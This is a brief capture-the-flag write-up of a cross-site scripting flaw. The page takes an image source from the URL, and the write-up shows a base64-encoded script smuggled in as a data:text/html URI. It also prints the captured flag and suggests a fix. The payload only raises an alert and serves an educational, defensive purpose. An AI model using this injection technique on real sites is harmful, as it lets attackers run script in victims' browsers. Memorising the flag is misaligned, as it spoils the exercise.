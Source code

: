 # Where:
    /
# How:

-Click the 3rd image on the index page

-Encode the following script into base 64 using [Base 64](https://www.base64encode.org/)

    (<script>alert('this works')</script>)

-Get following hash:

    ICg8c2NyaXB0PmFsZXJ0KCd0aGlzIHdvcmtzJyk8L3NjcmlwdD4pCg==

-Change the src value from 'nsa' to:

    data:text/html;base64,ICg8c2NyaXB0PmFsZXJ0KCd0aGlzIHdvcmtzJyk8L3NjcmlwdD4pCg==

-Press *Enter* to go to url with altered parameter to receive the flag.

# Flag:
    928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D

# Possible abuses:

Can trick the client-side into running a malicious script.

# Fix:

Don't take the source of an image as a variable in the url.
Rather have source stored somewhere secure and use ids to tell back end which source to use.
If you have to send the source rather use POST.